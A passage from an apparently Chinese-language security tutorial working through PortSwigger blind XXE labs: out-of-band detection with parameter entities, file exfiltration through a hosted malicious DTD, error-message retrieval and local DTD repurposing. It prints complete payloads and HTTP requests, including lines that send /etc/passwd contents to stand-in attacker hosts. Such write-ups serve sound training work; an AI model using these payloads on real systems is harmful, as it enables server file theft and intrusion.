随后选择任意商品  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131120-d82db8da-b9ad-1.png)  
查看其库存量  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131158-eed3e668-b9ad-1.png)  
捕获到的数据包如下所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131215-f8ffac3a-b9ad-1.png)

随后差入一下载荷并替换 productId 中的数据值，发送请求并点击"Poll now"刷新监测情况，可以看到 DNS 和 HTTP 请求过来

```plain
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131248-0cf06b8a-b9ae-1.png)

#### 盲注绕过

有时由于应用程序的某些输入验证或正在使用的 XML 解析器的某些强化，使用常规实体的 XXE 攻击会被阻止，在这种情况下您可以改用 XML 参数实体，XML 参数实体是一种特殊类型的 XML 实体，只能在 DTD 中的其他地方引用，就目前的目的而言，你只需要知道两件事，首先 XML 参数实体的声明在实体名称之前包含百分比字符：

```plain
<!ENTITY % myparameterentity "my parameter entity value" >
```

其次使用百分比字符而不是通常的"&"符号来引用参数实体：

```plain
%myparameterentity;
```

这意味着您可以通过 XML 参数实体使用带外检测来测试盲注类型的 XXE，这个 XXE 有效载荷声明了一个名为 XXE 的 XML 参数实体，然后在 DTD 中使用该实体，这将导致对攻击者的域进行 DNS 查找和 HTTP 请求，从而验证攻击是否成功

```plain
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

靶场名称：Lab: Blind XXE with out-of-band interaction via XML parameter entities  
靶场地址：[https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-interaction-using-parameter-entities)  
演示过程：  
随意选择一个商品  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131417-41f534f0-b9ae-1.png)  
检查库存并使用 burpsuite 抓包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131428-48590196-b9ae-1.png)  
数据包如下所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131444-51dda65e-b9ae-1.png)  
随后更改请求报文插入如下恶意载荷

```plain
POST /product/stock HTTP/1.1
Host: 0a43008404a4599280233f490021009d.web-security-academy.net
Connection: close
Content-Length: 225
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a43008404a4599280233f490021009d.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a43008404a4599280233f490021009d.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=ToZwNYGafVMppmLL2oNYxQnw7KGjBM3O

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://zcfht5rvm0tol8h8o6rym5kwnntdh2.burpcollaborator.net"> %xxe; ]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131507-5f98b50e-b9ae-1.png)

#### 文件外带

使用带外技术检测一个盲注类型的 XXE 漏洞是非常方便的，但它并不能真正证明该漏洞是如何被利用的，攻击者真正想要实现的是泄露敏感数据，这可以通过盲注 XXE 漏洞实现，但它涉及攻击者在其控制的系统上托管恶意 DTD，然后从带内 XXE 有效负载中调用外部 DTD，恶意 DTD 对/etc/passwd 文件的内容进行过滤的示例如下：

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

此 DTD 执行以下步骤：

-   定义一个名为 file 的 XML 参数实体，该实体包含/etc/passwd 文件的内容
-   定义一个名为 eval 的 XML 参数实体，其中包含另一个称为 exfiltere 的 XML 参数主体的动态声明，exfiltere 实体将通过向攻击者的 web 服务器发出 HTTP 请求来评估，该请求包含 URL 查询字符串中文件实体的值
-   使用 eval 实体，这将导致执行 exfiltered 实体的动态声明
-   使用 exfiltere 实体，以便通过请求指定的 URL 来计算其值

攻击者必须将恶意 DTD 托管在他们控制的系统上，通常是将其加载到自己的 Web 服务器上，例如：攻击者可能在以下 URL 提供恶意 DTD

```plain
http://web-attacker.com/malicious.dtd
```

最后攻击者必须向易受攻击的应用程序提交以下 XXE 负载，这个 XXE 有效载荷声明了一个名为 XXE 的 XML 参数实体，然后在 DTD 中使用该实体，这将导致 XML 解析器从攻击者的服务器获取外部 DTD 并对其进行内联解释，然后执行恶意 DTD 中定义的步骤并将/etc/passwd 文件传输到攻击者的服务器

```plain
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```

靶场名称：Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD  
靶场地址：[https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-out-of-band-exfiltration)  
演示过程：

随意选择要给商品

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131629-90737d44-b9ae-1.png)  
检测剩余量

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131640-970373da-b9ae-1.png)  
捕获的请求数据包如下所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131655-a043415a-b9ae-1.png)  
构造一下请求载荷

```plain
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://vfe4diypk995tl62h0q4c9ebk2qseh.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```

单击"Go to exploit server"并将恶意 DTD 文件保存在服务器上，单击"查看漏洞"并记下 URL

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131726-b23948a0-b9ae-1.png)  
随后需要通过添加引用恶意 DTD 的参数实体来利用股票检查器功能，在 XML 声明和 stockCheck 元素之间插入以下外部实体定义：

```plain
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

```plain
POST /product/stock HTTP/1.1
Host: 0a550032033f094c80325843002000cd.web-security-academy.net
Connection: close
Content-Length: 234
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a550032033f094c80325843002000cd.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a550032033f094c80325843002000cd.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=F9hc72Qi6qlwSFI45griUZdBSBgi00gB

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a5b0017037d097880e1577001da00ec.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131759-c5df5e76-b9ae-1.png)  
HTTP 交互可以包含/etc/hostname 文件的内容  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131814-cf38c160-b9ae-1.png)

#### 错误回显

利用盲注类型 XXE 的另一种方法是触发 XML 解析错误，其中错误消息包含要检索的敏感数据，如果应用程序在其响应中返回结果错误消息，这将是有效的，您可以使用恶意的外部 DTD 触发包含/etc/passwd 文件内容的 XML 解析错误消息，如下所示：

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

此 DTD 执行以下步骤：

-   定义一个名为 file 的 XML 参数实体，该实体包含/etc/passwd 文件的内容
-   定义一个名为 eval 的 XML 参数实体，该实体包含另一个 XML 参数实体 error 的动态声明，将通过加载一个不存在的文件来评估错误实体，该文件的名称包含文件实体的值
-   使用 eval 实体，将导致执行错误实体的动态声明
-   使用 error 实体，通过尝试加载不存在的文件来计算其值，从而生成一条包含不存在文件的名称的错误消息，该文件是/etc/passwd 文件的内容

调用恶意的外部 DTD 将导致如下错误消息：

```plain
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

靶场名称：Lab: Exploiting blind XXE to retrieve data via error messages  
靶场地址：[https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages](https://portswigger.net/web-security/xxe/blind/lab-xxe-with-data-retrieval-via-error-messages)  
演示过程：  
选择任意商品检查其余量信息

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131917-f46471c8-b9ae-1.png)

捕获到的数据包如下所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131931-fd0ea4b0-b9ae-1.png)  
点击"Go to exploit server"存储以下恶意载荷

```plain
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123131950-08763606-b9af-1.png)  
在请求数据包中构造一下恶意请求

```plain
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
```

```plain
POST /product/stock HTTP/1.1
Host: 0a1a00ea04105efa80d2ea870040004a.web-security-academy.net
Connection: close
Content-Length: 234
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a1a00ea04105efa80d2ea870040004a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a1a00ea04105efa80d2ea870040004a.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=kKTi4dp2ea3n1j7g7UsayQiq3ewv1DMc

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0a2500d804f15e248089e9ff01d100dc.exploit-server.net/exploit"> %xxe;]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123132022-1b8b960a-b9af-1.png)

#### 本地 DTD 利用 (思路)

前面的技术适用于外部 DTD，但通常不适用于 DOCTYPE 元素中完全指定的内部 DTD，这是因为该技术涉及在另一个参数实体的定义中使用 XML 参数实体，根据 XML 规范这在外部 DTD 中是允许的，但在内部 DTD 中不允许 (一些解析器可能会容忍它，但许多解析器不容忍)，那么当带外交互被阻止时，盲注类型的 XXE 漏洞您不能通过带外连接来过滤数据，也不能从远程服务器加载外部 DTD

在这种情况下，由于 XML 语言规范中的漏洞仍然可能触发包含敏感数据的错误消息，如果文档的 DTD 使用内部和外部 DTD 声明的混合，那么内部 DTD 可以重新定义在外部 DTD 中声明的实体，当这种情况发生时将放宽对在另一个参数实体的定义中使用 XML 参数实体的限制，这意味着攻击者可以在内部 DTD 中使用基于错误的 XXE 技术，前提是他们使用的 XML 参数实体正在重新定义在外部 DTD 中声明的实体，当然如果带外连接被阻止则无法从远程位置加载外部 DTD，相反它需要是应用程序服务器本地的外部 DTD 文件，从本质上讲该攻击涉及调用本地文件系统上碰巧存在的 DTD 文件并重新调整其用途以重新定义现有实体，从而触发包含敏感数据的解析错误

例如：假设服务器文件系统上有一个 DTD 文件，位于/usr/local/app/schema.DTD 位置，该 DTD 文件定义了一个名为 custom\_entity 的实体，攻击者可以通过提交如下混合 DTD 来触发包含/etc/passwd 文件内容的 XML 解析错误消息：

```plain
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

此 DTD 执行以下步骤：

-   定义一个名为 local\_dtd 的 XML 参数实体，该实体包含服务器文件系统上存在的外部 dtd 文件的内容
-   重新定义名为 custom\_entity 的 XML 参数实体，该实体已在外部 DTD 文件中定义
-   实体被重新定义为包含已描述的基于错误的 XXE 漏洞，用于触发包含/etc/passwd 文件内容的错误消息
-   使用 local\_dtd 实体以便解释外部 dtd，包括重新定义的 custom\_entity 实体的值，这将导致所需的错误消息

由于这种 XXE 攻击涉及重新调整服务器文件系统上现有 DTD 的用途，因此关键要求是找到合适的文件，这其实很简单，因为应用程序返回 XML 解析器抛出的任何错误消息，所以只需尝试从内部 DTD 中加载本地 DTD 文件，就可以轻松地枚举它们。例如：使用 GNOME 桌面环境的 Linux 系统通常在/usr/share/yelp/DTD/docbookx.DTD 中有一个 DTD 文件，您可以通过提交以下 XXE 负载来测试该文件是否存在，如果该文件丢失则会导致错误：

```plain
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

在测试了一个常见 DTD 文件列表以定位存在的文件后，您需要获得该文件的副本并对其进行检查以找到可以重新定义的实体，由于许多包含 DTD 文件的常见系统都是开源的，因此您通常可以通过互联网搜索快速获得文件的副本  
靶场地址：[https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd](https://portswigger.net/web-security/xxe/blind/lab-xxe-trigger-error-message-by-repurposing-local-dtd)  
演示过程：

浏览任意商品并查看剩余量  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123132419-a87da58a-b9af-1.png)  
数据报文如下所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240123132439-b4a147c2-b9af-1.png)  
在 XML 声明和 stockCheck 元素之间插入以下参数实体定义，这将导入 Yelp DTD，然后重新定义 ISOamso 实体，从而触发一条包含/etc/passwd 文件内容的错误消息

```plain
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

```plain
POST /product/stock HTTP/1.1
Host: 0a06001504bf952683b5c9f9000b000b.web-security-academy.net
Connection: close
Content-Length: 427
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: https://0a06001504bf952683b5c9f9000b000b.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a06001504bf952683b5c9f9000b000b.web-security-academy.net/product?productId=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=h6z4LaWkg2wcYbYdkEE7jEBWHblJNA4U

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240123132520-ccd139a6-b9af-1.png)

## 特殊攻击

### 基本介绍

